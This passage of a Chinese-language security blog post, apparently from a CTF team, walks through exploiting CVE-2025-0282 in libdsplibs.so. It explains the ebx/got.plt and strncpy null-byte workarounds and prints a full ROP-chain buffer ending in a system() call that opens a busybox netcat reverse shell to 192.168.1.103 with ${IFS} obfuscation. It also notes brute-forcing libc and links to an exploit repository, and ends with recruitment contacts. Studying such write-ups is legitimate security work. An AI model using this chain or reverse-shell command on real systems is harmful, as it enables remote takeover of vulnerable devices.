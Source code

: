 libdsplibs.so在编译时使用了-fipc ，会使用ebx传递got.plt地址，ebx在plt调用时需要跳转到got表，所以需要传libdsplibs.so的got表地址。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EEDM9NXhOXRTLJYqp5DKEQXgHAtx7WcRI5WGBiaxAjvluJibJicYWmpO4NTWibtTuSmoS4aLMqaZm7vKFfRdbeN1Kg/640?wx_fmt=png&from=appmsg "")  
  
但是这里又会需要注意一个问题因为程序用的strncpy会遇\x00截断，所以我们需要把got表地址-1传给ebx，然后通过在rop里指向inc ebx来恢复。  
  
到这就明确了我们要构造的rop链了。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EEDM9NXhOXRTLJYqp5DKEQXgHAtx7WcRMhoCCW861Yd1RWmcjYsknUmazdaqhbLlCea7rbkwAACWx4rft7Aw3g/640?wx_fmt=png&from=appmsg "")  
```
buffer  = ('C' * target[:padding_to_vftable])        buffer += [libdsplibs_base + target[:vftable_gadget_offset]].pack('V') # ptr to address + 0x48, to ptr, to gadget        buffer += ('A' * target[:padding_to_next_frame])        buffer += [libdsplibs_base + target[:offset_to_got_plt] - 1].pack('V') # ebx == got.plt - 1        buffer += [0xCAFEBEEF].pack('V') # esi        buffer += [0xCAFEBEEF].pack('V') # edi        buffer += [0xCAFEBEEF].pack('V') # ebp        buffer += [libdsplibs_base + target[:gadget_inc_ebx_ret]].pack('V') # inc ebx; ret;        buffer += [libdsplibs_base + target[:gadget_mov_eax_esp_retn]].pack('V') # mov eax, esp; ret ;        buffer += [libdsplibs_base + target[:gadget_add_eax_8_ret]].pack('V') # add eax, 8; ret;        buffer += [libdsplibs_base + target[:gadget_add_eax_8_ret]].pack('V') # add eax, 8; ret;        buffer += [libdsplibs_base + target[:gadget_add_eax_8_ret]].pack('V') # add eax, 8; ret;        buffer += [libdsplibs_base + target[:gadget_add_eax_8_ret]].pack('V') # add eax, 8; ret;        buffer += [libdsplibs_base + target[:gadget_add_eax_8_ret]].pack('V') # add eax, 8; ret;        buffer += [libdsplibs_base + target[:gadget_mov_esp_eax_call_system]].pack('V') # mov [esp], eax; call system;        buffer += [0xCAFEBEEF].pack('V')        buffer += [0xCAFEBEEF].pack('V')        buffer += [0xCAFEBEEF].pack('V')        buffer += [0xCAFEBEEF].pack('V')        buffer += "/tmp/busybox nc 192.168.1.103 2333 -e /bin/bash;#".gsub(' ', '${IFS}')
```  
  
接下来我们需要爆破libc地址，只需要爆破3位数即可，例如0xf6473000，f6和000是固定的。只需要爆破473  
# 3. exp  
  
下载地址  
>   
> https://github.com/sfewer-r7/CVE-2025-0282  
  
  
**文末:**  
  
欢迎师傅们加入我们:  
  
星盟安全团队纳新群1:  
222328705  
  
星盟安全团队纳新群2:  
346014666  
  
有兴趣的师傅欢迎一起来讨论!  
  
PS:团队纳新简历投递邮箱：  
  
xmcve@qq.com  
  
责任编辑：@Elite  
  
  
  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/EEDM9NXhOXQ5lXrsExLI9KSjQDicKM6nvZRmw9LnopcJictzf6wMDosnAWMltzcRTvM7rwmibzIy4zvDEibpFFL5CQ/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
![图片](https://mmbiz.qpic.cn/mmbiz_jpg/EEDM9NXhOXRyX2qIp8K3IeQUpoicOSe9I56ooEW8n8QF0Aaw7oZYqCnB8TPW0q8xYPfAb5Pnh97OFHwWjJm7khA/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
